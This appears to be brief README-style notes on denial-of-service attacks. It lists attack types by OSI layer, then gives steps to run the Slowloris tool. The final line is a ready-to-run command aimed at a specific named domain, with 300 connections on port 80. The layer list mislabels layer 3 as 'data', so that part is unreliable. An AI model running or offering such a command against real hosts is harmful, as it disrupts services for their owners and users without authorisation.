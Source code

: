 # Type of attacks
Overall there are different types of attacks depending on the OSI layer.

lvl 7 (application): https floods (most common), dns query floods
lvl 6 (presentation): SSL abuse 
lvl 5 (session): -
lvl 4 (transport): syn flood
lvl 3 (data): UDP reflection attacks

see img/typesOfDosAttacks
![Types of attacks](img/typeofDosAttacks.png)

# Slowloris
Type: 
//1. download git repository
//2. run
python3 slowloris.py -u www-qa.fiskars.com -s 300 -p 80